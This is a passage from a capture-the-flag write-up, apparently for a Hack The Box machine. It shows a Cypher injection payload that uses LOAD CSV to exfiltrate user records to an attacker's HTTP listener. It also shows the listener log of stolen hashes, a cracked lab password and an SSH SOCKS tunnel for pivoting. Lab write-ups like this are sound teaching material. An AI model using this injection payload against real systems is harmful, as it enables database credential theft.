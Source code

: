 ```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.139/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
On listener:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [23/Apr/2023 14:20:22] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 14:20:22] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 14:20:23] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Apr/2023 14:20:23] "GET /?username=john HTTP/1.1" 200 -
```
we know one pair of creds as admin:admin, but the other one is interesting:
`john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6`

Fortunately this cracks in a popular online rainbow table:

![Cracked with crackstation.net](Images/crackstation.png)

We now have credentials as `john:ThisIs4You`.

## Privilege Escalation
### Enumerating as user john

Now wish `ssh`, we can tunnel without the need for chisel
```
$ ssh -D 1080 john@only4you.htb
```

We can return back to the gog server, and possibly login with john
